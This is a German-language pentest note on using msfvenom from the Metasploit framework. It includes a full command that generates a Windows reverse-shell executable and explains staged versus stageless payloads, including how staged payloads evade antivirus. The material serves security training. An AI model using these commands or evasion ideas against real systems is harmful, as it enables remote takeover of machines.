 
# Generelle Infos 
*Der "einmal hin alles drin" Payload laden*

msfvenom ist Teil des Metasploit-Frameworks und wird verwendet, um Code für Reverse- und Bind-Shells zu generieren. Es wird häufig bei der Entwicklung von Exploits auf niedrigerer Ebene verwendet, um hexadezimalen Shellcode zu generieren, wenn z. B. ein Pufferüberlauf-Exploit entwickelt wird; es kann jedoch auch verwendet werden, um Payloads in verschiedenen Formaten zu generieren (z. B. .exe, .aspx, .war, .py)

Standard Syntax

```
msfvenom -p <Payload> <Options>
```

Beispiel anhand einer Windows x64 TCP Reverse shell

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
Erklärung der Optionen:
-f <Format>
	 -> Spezifiziert den output hier auf eine *.exe
-o <file>
	-> Die Output Location und den Dateinamen der Generierten Payload
LHOST=<ip>
	-> Spezifiziert die IP für das Call Back der Reverse shell
LPORT=<port>
	-> Spezifiziert den Call back port meistens bei Metasploit 4444

# Staged und Stageless

Generell werden Payloads in zwei Konzepte unterteilt Staged und Stageless reverse shell payloads, siehe unterhalb erklärt. Stageless Payloads sind in der Regel einfacher zu verwenden und abzufangen; sie sind jedoch auch sperriger und können von einem Antiviren- oder Eindringlingserkennungsprogramm leichter entdeckt und entfernt werden. Staged Payloads sind schwieriger zu verwenden, aber der erste Stager ist viel kürzer und wird manchmal von weniger effektiven Antivirenprogrammen übersehen. Moderne Antivirenlösungen nutzen auch das Anti-Malware Scan Interface (AMSI), um die Payload zu erkennen, wenn sie vom Stager in den Speicher geladen wird, so dass gestaffelte Payloads in diesem Bereich weniger effektiv sind als früher.

### Staged

Gestufte Payloads werden in zwei Teilen gesendet. Der erste Teil wird als Stager bezeichnet. Dabei handelt es sich um einen Teil des Codes, der direkt auf dem Server selbst ausgeführt wird. Er stellt eine Verbindung zu einem wartenden Listener her, enthält aber selbst keinen Reverse-Shell-Code. Stattdessen verbindet er sich mit dem Listener und nutzt die Verbindung, um die eigentliche Payload zu laden, sie direkt auszuführen und zu verhindern, dass sie auf die Festplatte gelangt, wo sie von herkömmlichen Antivirenlösungen abgefangen werden könnte. So wird die Payload in zwei Teile aufgeteilt - einen kleinen anfänglichen Stager und dann den umfangreicheren Reverse-Shell-Code, der heruntergeladen wird, wenn der Stager aktiviert wird. Staged Payloads erfordern einen speziellen Listener - normalerweise den Metasploit Multi/Handler

### Stageless

Stagless Payloads sind gebräuchlicher. Sie sind völlig eigenständig, da es nur ein Stück Code gibt, das bei Ausführung sofort eine Shell an den wartenden Listener zurückschickt.


